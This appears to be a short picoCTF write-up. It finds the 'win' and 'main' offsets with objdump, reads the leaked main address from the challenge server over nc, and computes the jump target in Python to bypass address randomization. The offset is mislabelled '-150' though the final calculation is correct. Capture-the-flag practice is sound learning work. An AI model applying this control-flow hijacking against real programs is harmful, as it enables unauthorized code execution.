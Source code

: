 Fun time learning about binaries. So here I downloaded the c and binary file to my laptop. I used WSL to get access to sum specific tools I needed. I inputed the following into WSL command line:
```
objdump -d vuln | grep "<win>\|<main>"
```
here I got the following out put:
```
    11c1:       48 8d 3d 75 01 00 00    lea    0x175(%rip),%rdi        # 133d <main>
00000000000012a7 <win>:
000000000000133d <main>:
    1387:       48 8d 35 af ff ff ff    lea    -0x51(%rip),%rsi        # 133d <main>
```
now we know the positions of the win and main, so the different between the two is:
```
0x133d - 0x12a7 = -150
```
okay so now open the webshell and we get the main address we need, for example:
```
escobara-picoctf@webshell:~$ nc rescued-float.picoctf.net 54133
Address of main: 0x58e4abf1333d
Enter the address to jump to, ex => 0x12345:
```
in python cli I did the following 
```
hex(0x58e4abf1333d - 150)
```
Then I pasted the output from python into the program and I got the flag.